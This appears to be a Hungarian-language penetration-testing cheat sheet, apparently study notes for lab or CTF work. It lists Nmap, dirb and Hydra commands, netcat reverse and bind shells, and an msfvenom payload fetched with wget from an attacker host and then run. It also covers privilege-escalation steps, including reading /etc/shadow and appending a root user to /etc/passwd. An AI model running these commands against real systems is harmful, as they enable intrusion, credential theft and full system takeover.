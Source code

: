 # Etikus hackelés jegyzet, enyém amugy de feljavított by ChatGPT

## Nmap - Portszkennelés

- A legtöbb gyakorlatban minden érdekes port benne van az Nmap alapértelmezett 1000 leggyakoribb port listájában, ezért nem szükséges megadni a `-p` kapcsolót.
- Alapértelmezett szkennelés:

```bash
ping <célszerver IP>
nmap -sS -sV <célszerver IP>
```

- `-sS`: TCP SYN szkennelés  
- `-sV`: Szolgáltatásverzió felismerés

---

## HTTP Protokoll és Webes Feltérképezés

- Weboldal elérése böngészőből: `http://<ip>`

### Almappák keresése

- **Dirb (CLI)**

```bash
dirb http://<ip> -r -U <felhasználónév>:<jelszó>
```

- **DirBuster (GUI)**

### Szólisták

- Felhasználónevekhez:  
  `/usr/share/wordlists/dirb/common.txt`

- Jelszavakhoz (Hydra):  
  `rockyou.txt`

---

## Hydra – Brute Force Jelszótörés

```bash
hydra -l <username> -P <jelszólista> <ip> http-get
```

---

## Reverse / Bind Shell Technika

### Reverse Shell

1. Válassz egy portot: `1024 < x < 65000` (pl. 4444)
2. Saját IP lekérése: `ip a`
3. Shellkód generálása: IP és port beégetése
4. Shellkód eljuttatása a célgépre
5. Listener indítása saját gépen:

```bash
nc -lvnp 4444
```

6. Shellkód futtatása a célgépen → kapcsolat létrejön

### Bind Shell

1. Port kiválasztása ✔  
2. Cél IP ismerete  
3. Shellkód generálás ✔  
4. Kód eljuttatása ✔  
5. Ugrás a következő pontra  
6. Kapcsolódás a cél gépen lévő listenerhez:

```bash
nc <cél IP> <port>
```

---

## Netcat Opciók

- `-l`: listen mód  
- `-v`: verbose  
- `-n`: numeric IP, nincs DNS feloldás  
- `-p`: port megadása

---

## Stabilabb Shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

---

## CMD Shell Támadás

- Olyan fájl vagy input mező sebezhető, ahol a célgép kódfuttatást enged.

### Példa: ELF fájl futtatása

1. Támadó oldalon generáljuk a shellt:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<támadó IP> LPORT=4444 -f elf > shell.elf
```

2. Listener indítása:

```bash
nc -lvp 4444
```

3. HTTP szerver indítása:

```bash
python3 -m http.server
```

4. Célgépen shell futtatása:

```bash
cd /tmp
rm -f shell.elf
wget http://<támadó IP>:8000/shell.elf
chmod +x shell.elf
./shell.elf
```

---

## WordPress

- WPScan:

```bash
wpscan --url http://<url> -e at,ap,u --usernames <user> --passwords <passwordlist>
```

- Exploit keresés:

```bash
msfconsole
search wordpress
use <exploit_id>
set options
run
```

---

## Exploit Adatbázis

- https://exploit-db.com

---

## Linux Privilege Escalation

### 1. SUID Bitek keresése

```bash
find / -perm -u=s 2>/dev/null
```

- GTFObins segítségével nézd meg, mire használható a bináris.  
  https://gtfobins.github.io

### 2. SSH Privát Kulcsok

- Ellenőrizd:  
  `/home/<user>/.ssh/`

### 3. Sudo jogosultságok megnézése a current userre

```bash
sudo -l
```

### 4. /etc/passwd és /etc/shadow jogai

```cat```-eljük ki őket, nézzük meg.

- Fájl jogosultságok ellenőrzése:

```bash
getfacl <fájlnév>
```

- Hash törés:  
  `john` vagy `hashcat`

### 5. Python Library Hijacking

- Ha a célgépen a script saját mappából importál, akkor saját `random.py` fájl létrehozásával tetszőleges kódot futtathatunk.

---

## Felhasználóváltás

```bash
su <user>
sudo -u <user> <parancs>
```

---

## /etc/passwd manipulálása

Ha van írási jogunk:

```bash
openssl passwd -5 korte
# kimenet: $5$...
```

Majd:

```bash
echo 'hacker:$5$...:0:0:root:/root:/bin/bash' >> /etc/passwd
```

---

## LinPEAS

- Automatikus sebezhetőségvizsgáló eszköz:  
  https://github.com/carlospolop/PEASS-ng

---

## /etc/hosts manipulálása

Először
```bash
sudo nano /etc/hosts
```
majd <ip> <local domain> beillesztése, és mentés.

---
## BurpSuit

```burpsuite``` parancs a futtatásra

---

## Hasznos Oldalak

- https://exploit-db.com  
- https://gtfobins.github.io
